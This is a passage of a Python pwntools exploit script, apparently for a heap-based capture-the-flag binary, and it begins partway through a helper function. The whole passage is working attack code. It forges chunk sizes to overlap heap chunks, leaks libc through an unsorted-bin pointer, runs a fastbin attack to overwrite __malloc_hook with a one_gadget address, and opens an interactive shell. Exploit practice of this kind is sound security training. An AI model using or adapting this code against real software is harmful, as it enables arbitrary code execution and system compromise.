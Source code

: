 ```python
	io.sendlineafter(b'Index: ', str(index).encode())
	in_use[index] = False

def dump(index):
	io.sendlineafter(b'Command: ', b'4')
	io.sendlineafter(b'Index: ', str(index).encode())
	io.recvuntil(b'Content: \n')

allocate(0x110)		# chunk #0
allocate(0x110)		# chunk #1
allocate(0x110)		# chunk #2
allocate(0x110)		# chunk #3

payload = cyclic(0x110)
payload += p64(0x120)		# prev_size of chunk #1
payload += p64(0x241)		# fake size of chunk #1
fill(0, 0x120, payload)

release(1)
allocate(0x130)		# fake chunk #1

dump(2)
io.recv(0x20)
malloc_hook = u64(io.recv(8)) - 88 - 0x10
print(hex(malloc_hook))
libc = LibcSearcher('__malloc_hook', malloc_hook)
base = malloc_hook - libc.dump('__malloc_hook')
free_hook = base + libc.dump('__free_hook')

fill(2, 0x30, b'\x00' * 0x18 + p64(0x100) + p64(malloc_hook + 0x10 + 88) + p64(malloc_hook + 0x10 + 88))

allocate(0xf0)		# chunk #4
allocate(0x20)		# chunk #5
allocate(0x60)		# chunk #6

release(6)
gdb.attach(io)
fill(5, 0x38, b'\x00' * 0x20 + p64(0x30) + p64(0x71) + p64(malloc_hook - 0x23))	# fastbin attack
allocate(0x60)		# chunk #6
allocate(0x60)		# chunk #7, this one is on __malloc_hook

fill(7, 0x1B, b'\x00' * 0x13 + p64(one_gadgets[1] + base))	# write one_gadget
# gdb.attach(io)
# release(6)

# allocate(0x20)	### DO THIS IN INTERACTIVE()!!!
io.interactive()
```
